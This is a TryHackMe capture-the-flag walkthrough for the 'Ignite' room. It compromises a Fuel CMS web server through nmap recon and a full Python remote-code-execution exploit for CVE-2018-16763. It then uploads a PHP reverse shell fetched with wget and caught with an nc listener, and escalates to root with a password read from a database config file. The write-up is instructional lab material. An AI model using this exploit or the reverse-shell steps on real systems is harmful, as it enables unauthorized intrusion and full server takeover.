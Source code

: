# [Ignite TryHackMe Writeup/Walkthrough][1]
A new start-up has a few issues with their web server.


#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

Command -> `nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.112.107
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 10.80 seconds
```

Let's check the website as we have `port 80` open.

It seems like a default page of **Fuel CMS**. I found two interesting things here.

1. Location of the database which can be handy later, provided if I got the access.

![DataBase Location](images/database_credentials.png)

2. Login Credentials for admin and a web panel.

![Login Credentials](images/web_login.png)
> I found nothing interesting in the web panel.

Let's search for exploit already available for **Fuel CMS**. You can look for this online on CVE Details or alternatively you can look into the database available in Kali Linux. CMD -> `searchsploit fuel cms`

```
----------------------------------------------------------- --------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------------
- fuel CMS 1.4.1 - Remote Code Execution (1)               | linux/webapps/47138.py
- Fuel CMS 1.4.1 - Remote Code Execution (2)               | php/webapps/49487.rb
- Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)     | php/webapps/48741.txt
- Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authen | php/webapps/48778.txt
----------------------------------------------------------- --------------------------
Shellcodes: No Results
```

*Remote Code Exceution via Python* looks promising. This files are located under `/usr/share/exploitdb/exploits/`. Get a copy of the file and `gedit` or `nano` to edit the file.

![Copy Exploit](images/copy_exploit.png)

The changes you need to make here is the
1. `URL` will be IP of the machine.
2. comment the line where it says `proxy` using **#** and remove `, proxy` from the line where it is `r = ..`. The below code is already edited.

```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.112.107"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	# proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

Run the file using python -> `python 47138.py`

![Got SHell](images/got_shell.png)
> Got Shell as `www-data`.

You can get the `user_flag` easily. But this shell is unstable. Let's get a `netcat` shell using `php backdoor.` PHP Reverse Backdoor is available in `/usr/share/webshells/php-reverse-shell.php`.

Get the file as same way we did the exploit. `gedit` or `nano` the file and change the `$ip` to your **TryHackMe's IP** and `$port` to `4444` (you can keep the port same).

Now we need to transfer the file to the server. For that start a local server, using `python3 -m http.server`.

To get download the shell, type -> `wget http://<YOUR_IP>:8000/php-reverse-shell.php`. The file will be downloaded in the web server.

Start a listener using `nc -lvnp 4444` and go the website -> `http://<IP>/php-reverse-shell.php` and you will have the access.

![Got Access](images/got_access.png)

Further process to stabilize the shell is

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Press `Ctrl + Z`.
3. `stty raw -echo;fg`

You will now have a stable shell with additional functionality.  

Now we can get the user flag.

![User Flag](images/user_flag.png)

### Privilege Escalation

I tried many methods, looked for `sudo -l`, found noting much. Then I check the file location with the database credentials and found the password for `root` user. File location is the ***Step 2*** on the website. The one with configuration file.

![Root Password](images/root_password.png)

To be root user, type, `su root` and the *password* you got form above file.

![Root User](images/root_user.png)

You have the root access. You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.png)

[1]: https://tryhackme.com/room/ignite
[2]: https://www.hackhunt.in/search/label/Nmap
